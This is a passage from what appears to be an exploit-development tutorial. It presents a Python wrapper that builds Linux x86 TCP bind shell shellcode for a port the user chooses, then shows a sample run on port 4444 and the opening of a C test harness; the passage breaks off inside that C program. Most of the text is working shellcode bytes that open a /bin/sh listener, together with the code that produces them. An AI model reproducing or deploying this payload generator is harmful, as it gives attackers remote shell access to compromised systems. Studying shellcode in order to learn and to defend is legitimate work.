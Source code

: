 ```python
scPart2 = "\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
scPart2 += "\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
scPart2 += "\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
scPart2 += "\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
scPart2 += "\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
scPart2 += "\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"

# Initiate the Shellcode variable we will output
shellcode = ""

# Add the first part of the tcp bind shellcode
for x in bytearray(scPart1) :
    shellcode += '\\x'
    shellcode += '%02x' %x
# Add the user added tcp port to the shellcode
shellcode += "\\x"+tcpPort
# Add the second part of the tcp bind shellcode
for x in bytearray(scPart2) :
    shellcode += '\\x'
    shellcode += '%02x' %x

print "Choose your shellcode export format."
exportFormat = raw_input("[1] = C Format\n[2] = Python Format\n[1]: ")
if exportFormat == "2" : 
    formatSC = '"\nshellcode += "'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[-----------------------Your-Shellcode------------------------]"
    print 'shellcode = "'+formatSC+'"'
else :
    formatSC = '"\n"'.join(shellcode[i:i+48] for i in range(0,len(shellcode), 48))
    print "[----------------Your-Shellcode------------------]"
    print ' unsigned char shellcode[] = \\\n"'+formatSC+'";'
```
+ Awesome! Now lets test it with the TCP Port 4444

### Testing Wrapper with Port 4444
```console
root# python tcpbindwrapper.py
Enter TCP Port Number: 4444
Your TCP Port in Hex is: \x11\x5c
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
shellcode = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x11\x5c\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
```
#### Add Shellcode to C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
```